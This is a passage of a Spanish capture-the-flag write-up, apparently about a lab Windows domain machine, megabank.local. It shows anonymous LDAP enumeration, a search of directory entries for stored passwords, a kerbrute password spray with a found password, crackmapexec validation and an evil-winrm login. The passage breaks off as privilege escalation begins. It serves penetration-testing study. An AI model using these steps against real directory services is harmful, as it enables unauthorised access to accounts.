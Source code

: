 ```
ldapsearch -x -h 10.10.10.169 -s base namingcontexts
```

Obteniendo:

<img src="https://user-images.githubusercontent.com/55555187/161283704-9f40639a-e372-4aad-8eee-9c828b821469.png" title="" alt="ldap1" width="588">

Pruebo a lanzar una consulta para obtener el ldap entero.

```
ldapsearch -x -h 10.10.10.169 -b "DC=megabank,DC=local"
```

Obteniendo el ldap y guardandolo en mi máquina.

## Obtención de acceso

Pruebo a enumerar usuarios válidos del sistema.

```
ldapsearch -x -h 10.10.10.169 -b "DC=megabank,DC=local" "(objectClass=person)" | grep "userPrincipalName:""
```

Obteniendo una lista de usuarios válidos.

Además de esto, búsco en el ldap posibles contraseñas filtrando por "userPassword", "pwd", "Pwd", "Password", "password" obteniendo en una de las consultas lo siguiente:

<img src="https://user-images.githubusercontent.com/55555187/161283707-74cc8f78-c57c-42d9-8579-ca03ab48073a.png" title="" alt="ldap2" width="612">

Con la lista de usuario y la contraseña **Welcome123!**, lanzo un **password spray attack** con **kerbrute**.

```
kerbrute.py passwordspray users.txt Welcome123! -d megabank.local --dc 10.10.10.169
```

Obteniendo:

<img src="https://user-images.githubusercontent.com/55555187/161283682-2cf38e77-2b21-401d-ad37-f7e15154c1e8.png" title="" alt="recon5" width="608">

Valido las credenciales con crackmapexec y compruebo si melanie pertenece al grupo remote management users.

<img src="https://user-images.githubusercontent.com/55555187/161283716-7312465a-e831-479a-bed8-a9639766646f.png" title="" alt="recon3" width="618">

Me conecto usando evil-winrm y empiezo a enumerar la máquina. Me llama la atención el directorio del usuario ryan al que quizás más adelante tengamos que pivotar.

<img src="https://user-images.githubusercontent.com/55555187/161283721-8cf68942-6a04-4192-b84a-f21cb6b42834.png" title="" alt="recon4" width="564">

## Escalada de privilegios

Lanzo **winPEAS** para enumerar el sistema de forma rápida pero no encuentra nada interesante.
